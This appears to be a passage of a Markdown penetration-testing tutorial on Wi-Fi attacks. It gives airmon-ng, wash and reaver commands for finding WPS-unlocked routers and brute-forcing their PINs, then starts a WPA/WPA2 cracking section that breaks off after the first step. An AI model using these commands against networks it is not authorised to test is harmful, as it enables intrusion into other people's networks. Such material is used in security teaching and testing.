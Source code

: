 The problem with WPS is that the WPS–enabled router is vulnerable to having the WPS cracked due to the fact that the pin was originally designed as two 4-pin blocks. It is much quicker to crack two 4-pin blocks than it is one 8-pin block.

1. Verify wireless NIC
2. Scan for potential WPS vulnerable networks
3. Brute-force the WPS pin

### Verify wireless NIC

View and document wireless adapter:

```text
# airmon-ng
```

Create an interface that runs in monitor mode:

```text
# airmon-ng start wlan0
```
Write down interface name (something like `wlan0mon`)

### Scan for potential WPS vulnerable networks

Wash is included in the Reaver package:

```text
# wash -i wlan0mon
```

In the list are the BSSIDs (MAC address) of the access points, the channel, and the ESSID (network name), and whether the WPS protocol is locked (in other words, whether it is protected from WPS brute-force attacks). Look for a `no`.

### Brute-force the WPS pin

Using Reaver:

```text
# reaver -c <channel> -b <bssid> -i <interface> -vv
```

## Cracking WPA/WPA2 keys

1. Verify wireless NIC
2. Discover networks with Airodump-ng
3. Perform deauthentication attack
4. Crack the WPA/WPA2 key

### Verify wireless NIC

View and document wireless adapter:

```text
# airmon-ng
```
